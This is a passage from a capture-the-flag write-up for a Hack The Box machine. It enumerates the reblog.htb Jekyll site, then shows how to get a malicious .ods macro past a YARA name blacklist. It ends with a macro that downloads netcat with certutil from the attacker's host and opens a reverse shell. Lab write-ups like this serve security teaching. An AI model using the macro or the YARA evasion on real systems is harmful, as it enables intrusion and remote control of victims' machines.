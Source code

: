 `<meta http-equiv = "refresh" content = "2; url = http://reblog.htb" />`

### Website enumeration: reblog.htb

After adding `reblog.htb` to my `/etc/hosts`, the redirect works and I can load the blog page.

![](/assets/images/htb-writeup-re/reblog.png)

Based on the HTML source code, I see the blog page is built using Jekyll, a popular static website generator.

```html
<meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.5.0 -->
<title>Automation and Accounts on Analysis Box | RE Blog</title>
<meta name="generator" content="Jekyll v3.8.5" />
```

The blog contains a bunch of useful info, including some potential hints about what we need to do.

![](/assets/images/htb-writeup-re/blog1.png)

![](/assets/images/htb-writeup-re/blog2.png)

![](/assets/images/htb-writeup-re/blog3.png)

![](/assets/images/htb-writeup-re/blog4.png)

![](/assets/images/htb-writeup-re/blog5.png)

![](/assets/images/htb-writeup-re/blog6.png)

The `.ods` file extension is used by LibreOffice Calc and this seems to be a hint that I need to use this file format for my payload. One blog post says that malware samples dropped on the share will automatically be executed, but as a low privilege user. This is likely the first step to get a foothold on the box. The blog posts link to [0xdf's blog post about Yara rules](https://0xdf.gitlab.io/2019/03/27/analyzing-document-macros-with-yara.html). The example shown on the blog blacklists the following Subs:

- Sub OnLoad
- Sub Exploit

Because I can assign any macro to the Open Document event, I can use `Run_at_open` (or any name for that matter) instead of `OnLoad` for the function name and it won't be caught by the YARA rule.

I created a `sales.ods` file with the following macro using `certutil` to download netcat and execute it.

```vb
Sub Run_at_open
	Shell("certutil.exe -urlcache -split -f 'http://10.10.16.9/nc.exe' C:\Windows\System32\spool\drivers\color\nc.exe")
	Shell("C:\Windows\System32\spool\drivers\color\nc.exe 10.10.16.9 4444 -e cmd.exe")
End Sub
```
